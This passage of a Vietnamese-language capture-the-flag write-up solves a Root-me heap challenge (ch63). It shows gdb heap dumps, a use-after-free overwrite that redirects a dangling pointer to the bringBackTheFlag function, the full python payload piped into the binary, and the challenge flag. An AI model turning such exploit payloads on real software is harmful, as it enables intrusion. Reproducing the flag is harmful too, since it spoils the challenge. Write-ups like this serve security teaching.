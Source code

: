 - Kiểm tra heap ta thấy bark tới **0x45454545** và crash. Vì con trỏ không được reset nên nó vẫn trỏ tới **0x9595014** và ta hoàn toàn có thể kiểm soát được giá trị ở địa chỉ này.
```
(gdb)  x/50x 0x9595000
0x9595000:      0x00000000      0x00000021      0x42424242      0x43434343
0x9595010:      0x44444444      0x45454545      0x46464646      0x00000000
0x9595020:      0x00000000      0x00020fe1      0x00000000      0x00000000
```
- Mục tiêu là viết giá trị **0x080487cb** (**bringBackTheFlag**)vào địa chỉ **0x9595014** 

**4.Payload**

```
python -c "print '1\n' + 'AAAA\n' + '4\n' + '5\n' + 'BBBBCCCCDDDD\xcb\x87\x04\x08\n' + 'FFFF\n' + '2\n'" | ./ch63
```

![](https://raw.githubusercontent.com/jkana/Writeup/main/Root-me/Images/5.JPG)

**5.Flag**

```
U44aafff_U4f_The_d0G
```
